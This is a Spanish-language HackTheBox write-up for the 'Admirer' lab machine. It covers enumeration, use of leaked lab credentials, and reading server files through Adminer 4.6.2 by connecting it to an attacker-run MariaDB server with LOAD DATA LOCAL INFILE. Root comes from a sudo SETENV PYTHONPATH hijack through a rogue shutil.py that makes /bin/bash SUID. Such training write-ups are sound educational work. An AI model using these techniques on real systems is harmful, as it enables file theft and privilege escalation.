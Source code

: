 ```yaml
---
title: HackTheBox - Admirer
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Adminer 4.6.2', 'Python Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Admirer/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Admirer Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Adminer 4.6.2, Python Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Admirer`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Admirer/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Admirer/02-versions.png)

c. Visitamos el sitio web

![](/assets/images/HTB/Easy/Admirer/03-web.png)

* Al no encontrar algo interesante, fuzzeamos en busca de archivos o directorios con **nmap**

  ```bash
  root@kali> nmap -p80 --script http-enum 10.10.10.187

  PORT   STATE SERVICE
  80/tcp open  http
  | http-enum: 
  |_  /robots.txt: Robots file
  ```

* En el archivo **`robots.txt`** vemos el siguiente mensaje

  ```bash
  # This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
  Disallow: /admin-dir
  ```

* Como nos dicen que existe un archivo con credenciales, buscamos por nombres de archivos como **`creds.txt` o `credentials.txt`**

  * **URL:** http://<IP>/admin-dir/credentials.txt

    ```bash
    [Internal mail account]
    w.cooper@admirer.htb
    fgJr6q#S\W:$P

    [FTP account]
    ftpuser
    %n?4Wz}R$tTF7

    [Wordpress account]
    admin
    w0rdpr3ss01!
    ```

d. Nos autenticamos con las credenciales antes encontradas en el servicio FTP

```bash
root@kali> ftp 10.10.10.187
Name (10.10.10.187:kali): ftpuser
Password: %n?4Wz}R$tTF7
230 Login successful.
ftp> dir
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

* Descargamos los anteriores archivos con **`get <Archivo>`**

* Ahora los analizamos y encontramos muchas credenciales, un usuario válido **waldo**, una estructura en SQL y un directorio **utility-scripts**

  * **index.php**

    ```php
    $servername = "localhost";
    $username = "waldo";
    $password = "]F7jLHw:*G>UPrTo}~A"d6b";
    $dbname = "admirerdb";
    ```

  * **dump.sql**

    ```sql
    -- Table structure for table `items`
    ```

  * **utility-scripts**

    ```bash
    [ 4096]  utility-scripts
    ├── [ 1795]  utility-scripts/admin_tasks.php
    ├── [  401]  utility-scripts/db_admin.php
    ├── [   20]  utility-scripts/info.php
    └── [   53]  utility-scripts/phptest.php
    ```

e. Fuzeamos por archivos **.php** en este directorio

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404  -w /usr/share/seclists/Discovery/Web-Content/big.txt  http://admirer.htb/utility-scripts/FUZZ.php

  000001874:   200        51 L     235 W      4157 Ch     "adminer"
  ```

* Visitamos este servicio, pero, ninguna de las credenciales antes encontradas funcionará por lo que buscamos por vulnerabilidades asociadas a este servicio -  [Artículo](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability)

## Configurando el entorno 🎋

* Modificamos el fichero **/etc/mysql/mariadb.conf.d/50-server.cnf**

  ```bash
  bind-address            = 0.0.0.0
  ```
  > Hacemos que nuestro servidor sea accesible desde cualquier dirección IP.

* Ahora, crearemos un nuevo usuario **admirer:admirer** que tenga total acceso a la base de datos **admirerdb** que tendrá una tabla **items**

  ```bash
  root@kali> mysql

  MariaDB [(none)]> CREATE USER admirer@<tun0 IP> IDENTIFIED BY 'admirer';
  MariaDB [(none)]> CREATE DATABASE admirerdb;
  MariaDB [(none)]> use admirerdb;
  MariaDB [(admirerdb)]> CREATE TABLE items(id VARCHAR(10), name VARCHAR(255), PRIMARY KEY(id));

  # Damos total acceso al uusario **`admirer`** sobre la base de datos **`admirerdb`** y le decimos que se
  # podrá conectar desde cualquier dirección IP.
  MariaDB [(admirerdb)]> GRANT ALL PRIVILEGES ON admirerdb.* TO admirer@'%' WITH GRANT OPTION;

  # Recargar los privilegios de MySQL 
  MariaDB [(admirerdb)]> FLUSH PRIVILEGES;
  ```

g. Ahora, desde **adminer.php** nos conectamos a nuestro servidor

![](/assets/images/HTB/Easy/Admirer/04-admirer.png)

* Los datos que captureremos son las credenciales del usuario **waldo** que están alojadas en el fichero index.php (Esto se vió al descomprimir el fichero **html.tar.gz**), podremos leer este archivo con ayuda de **Wireshark**

* Primero, nos pondremos en escucha por la interfaz de red **tun0** y en Adminer ejecutaremos la siguiente sentencia SQL

  ```sql
  LOAD DATA LOCAL INFILE '/var/www/html/index.php'
  INTO TABLE test FIELDS TERMINATED BY '\n'
  ```

  ![](/assets/images/HTB/Easy/Admirer/05-sql.png)

* Ahora en Wireshark veremos los datos que hemos recibido

  ![](/assets/images/HTB/Easy/Admirer/06-wireshark.png)

  ![](/assets/images/HTB/Easy/Admirer/07-creds.png)


h. Con estas credenciales nos podemos conectar al servicio **SSH**

```bash
root@kali> ssh waldo@<Admirer IP>
waldo@admirer:~$
```

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
User waldo may run the following commands on admirer:
  (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

* Al inspeccionar el script vemos que si seleccionar la opción **`6) Backup web data`** se usa un script **`backup.py`**
  ```bash
  backup_web(){
    if [ "$EUID" -eq 0 ]                                                                                   
    then                
      echo "Running backup script in the background, it might take a while..."
      /opt/scripts/backup.py &                                                                                  
    else                                                                                                    
      echo "Insufficient privileges to perform the selected operation."
    fi
  } 
  ```

* Inspeccionamos el script **backup.py**

  ```bash
  #!/usr/bin/python3

  from shutil import make_archive
  src = '/var/www/html/'
  # old ftp directory, not used anymore
  #dst = '/srv/ftp/html'
  dst = '/var/backups/html'
  make_archive(dst, 'gztar', src)
  ```

* Si nos fijamos bien el permiso sudoers, vemos **SETENV** esta directiva nos permite indicar una variable de entorno para cargar algo [Hacktricks - SETENV](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

* En este caso podemos cargar la librería **shutil** desde donde le indiquemos

b. Creamos un fichero 'shutil.py' en **/dev/shm** con el siguiente código

```python
import os
os.system("chmod +s /bin/bash")
```

* Ahora ejecutamos **/opt/scripts/admin_tasks.sh** como root, escogeremos la opción **6) Backup web data** y le indicamos la dirección de nuestro shutil.py

  ```bash
  waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh
  <SNIP>
  Choose an option: 6
  waldo@admirer:/dev/shm$ ls -la /bin/bash
  -rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
  waldo@admirer:/dev/shm$ bash -p
  bash-4.4# whoami
  root
  ```


